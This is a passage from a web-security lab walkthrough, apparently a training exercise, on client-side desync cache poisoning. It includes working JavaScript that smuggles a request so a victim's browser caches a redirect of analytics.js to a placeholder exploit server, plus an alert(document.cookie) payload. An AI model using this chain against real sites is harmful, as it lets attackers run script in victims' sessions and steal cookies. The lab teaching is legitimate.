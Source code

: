 _Note: If you need to repeat this attack for any reason, make sure that you clear the cache before each attempt (**Settings -> Clear browsing data -> Cached images and files**)._

6. Observe that you land on the exploit server's "Hello world" page.
7. On the Network tab, you should see three requests:
* The main request, which triggered a server error.
* A request for the analytics.js file, which received a redirect to your exploit server.
* A request for the exploit server after following the redirect.
8. With the Network tab still open, go to the login page.
9. On the Network tab, find the most recent request for `/resources/js/analytics.js`. Notice that not only did this receive a redirect response, but this came from the cache. If you select the request, you can also see that the Location header points to your exploit server. This confirms that you have successfully poisoned the cache via a browser-initiated request.

### Exploit

1. Go back to the exploit server and clear the cache.
2. In the Body section, wrap your attack in a conditional statement so that:
* The first time the browser window loads the page, it poisons its own cache via the fetch() script that you just tested.
* The second time the browser window loads the page, it performs a top-level navigation to the login page containing the JavaScript import.

```html
const labURL = "lab-id.web-security-academy.net";
const exploitHost = "YOUR-EXPLOIT-SERVER-ID.exploit-server.net";

if(window.name != 'skip'){
    window.name = 'skip';
    fetch(`${labURL}/..%2f`, { method: 'POST', body: `GET //${exploitHost}/eXpLoIt HTTP/1.1\r\nFoo: x`, credentials: 'include', mode: 'no-cors' }).then(() => {location=`${labURL}/resources/js/analytics.js`} );
} else {
    window.name = '';
    location = `${labURL}/login`;
}
```

3. As this page will initially be loaded as HTML, wrap the script in HTML `script` tags.
4. Wrap the entire attack inside a JavaScript comment, and add your `alert()` payload outside the comment delimiters:

```html
alert(document.cookie);
/*
<script>
    const labURL = "https://lab-id.web-security-academy.net";
    const exploitHost = "YOUR-EXPLOIT-SERVER-ID.exploit-server.net";

    if(window.name != 'skip'){
        window.name = 'skip';
        fetch(`${labURL}/..%2f`, { method: 'POST', body: `GET //${exploitHost}/eXpLoIt HTTP/1.1\r\nFoo: x`, credentials: 'include', mode: 'no-cors' }).then(() => {location=`${labURL}/resources/js/analytics.js`} );
    } else {
        window.name = '';
        location = `${labURL}/login`;
    }
</script>
*/
```
